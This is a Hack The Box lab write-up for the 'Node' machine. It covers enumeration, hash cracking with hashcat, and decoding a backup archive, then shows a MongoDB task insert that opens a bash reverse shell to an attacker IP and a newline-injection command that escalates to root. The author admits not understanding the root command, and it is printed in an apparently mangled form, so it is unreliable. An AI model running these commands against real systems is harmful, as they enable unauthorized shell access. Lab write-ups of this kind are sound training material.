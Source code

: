 # Node

This is my write-up for the machine on Hack The Box called **Node** located at: [https://app.hackthebox.com/machines/Node](https://app.hackthebox.com/machines/Node).

I started off with an nmap scan:

![](<../../.gitbook/assets/image (344) (1).png>)

We see 2 ports open: one for SSH and one for a software known as hadoop-datanode. Port 3000 has a web server running on it:

![](<../../.gitbook/assets/image (347) (1).png>)

I then ran **dirsearch** using the **directory-list-lowercase-2.3-medium.txt** from the dirbuster wordlist directory to see what folders/files I had access to:

`dirsearch -e php,html,js,cgi,bak,txt -u http://10.10.10.58:3000 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50`

This showed me the following:

![](<../../.gitbook/assets/image (370) (1).png>)

I read up on [this write-up](https://alamot.github.io/node\_writeup/) which pointed me in the direction of using **burpsuite** in order to see requests incoming. I found one that was interesting and followed it:

![](<../../.gitbook/assets/image (341) (1) (1).png>)

These could be passwords or hashes. I tried the username with the passwords, and this did not work for me. Running the hash for **tom** in **hash-identifier** resulted in the following:

![](<../../.gitbook/assets/image (334) (1).png>)

Running the other hashes resulted in **SHA-256** as well. Using the [hashcat examples website](https://hashcat.net/wiki/doku.php?id=example\_hashes), I then had to find out what the Hash-Mode was:

![](<../../.gitbook/assets/image (345).png>)

Running the hashcat command `hashcat -a 0 -m 1400 hashes rockyou.txt` got me the following:

![](<../../.gitbook/assets/image (348) (1) (1).png>)

It seems that I have cracked the passwords for the users **tom** and **mark**. When I login using those credentials, I get the same result:

![](<../../.gitbook/assets/image (350) (1) (1) (1).png>)

Reading the same write-up from before, I missed the directory above from where I was located at:

![](<../../.gitbook/assets/image (368) (1) (1).png>)

This led me to find a new user: **myP14ceAdm1nAcc0uNT**. I then ran **hashcat** on the new hash (with a new wordlist - not needed, but I just did) and got the following:

![](<../../.gitbook/assets/image (369) (1).png>)

Now we see a different output on the main screen:

![](<../../.gitbook/assets/image (366) (1) (1) (1).png>)

Downloading the backup led me to a large ASCII file:

![](<../../.gitbook/assets/image (363) (1) (1).png>)

I noticed a "**=**" at the end, so I thought it could be base64. Decoding the file led me to a zip folder where the files were password protected:

![](<../../.gitbook/assets/image (367) (1) (1).png>)

Following the write-up mentioned above, I ran the command `cat myplace.backup | base64 -d > backup.zip` in order to make my own zip file. This gave me the same result that I had gotten earlier from using [https://www.base64decode.org/](https://www.base64decode.org) to decode the content of the document for me. I then uploaded zipped file on [this website](https://www.onlinehashcrack.com/tools-zip-rar-7z-archive-hash-extractor.php) and got the following output:

![](<../../.gitbook/assets/image (349) (1).png>)

I will go back to the [example hashes site from hashcat](https://hashcat.net/wiki/doku.php?id=example\_hashes) to see what mode this would be:

![](<../../.gitbook/assets/image (335) (1).png>)

I then ran the hashcat command `hashcat -a 0 -m 17230 pkziphash xato-net-10-million-passwords-1000000.txt` to see if I can crack the password:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1).png>)

I was then able to decode the zip by running `unzip backup.zip`. This created a new directory called **var** in my local directory. In a file called **app.js**, I found the following:

![](<../../.gitbook/assets/image (351) (1) (1) (1).png>)

I was a bit lost about what to do with these credentials, I then read the same write-up again to find out that those credentials would work for **SSH**:

![](<../../.gitbook/assets/image (352) (1) (1) (1).png>)

I also learned from the write-up to search for processes being run by tom:

![](<../../.gitbook/assets/image (343).png>)

I do not have a lot of experience with mongo commands work. Between the write-up I have been mentioning previously and [this write-up](https://dumbsec.ninja/htb-node-box-writeup.html) for this machine, I ran the following commands:

`mongo localhost:27017/scheduler -u mark -p 5AYRft73VtFpc84k`

`db.tasks.insert({cmd: '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.14/1227 0>&1"'})`

I was then able to get a shell as tom:

![](<../../.gitbook/assets/image (342).png>)

I was then able to read the user.txt:

![](<../../.gitbook/assets/image (336) (1) (1).png>)

From the second write-up (previously mentioned), I learned about the following command, which got me directly to root using the backup process:

/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n' <4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n'

![](<../../.gitbook/assets/image (346) (1).png>)

I will be honest. I have been looking at write-ups for this machine and they all seem to use buffer overflows in order to crack the command to get to the root user. I am a bit unsure how the previous command I used to get to root worked. From my understanding, it seems that the backup process was owned by root, and using the backup key, I was able to run the command. Again, not why why this command exactly.
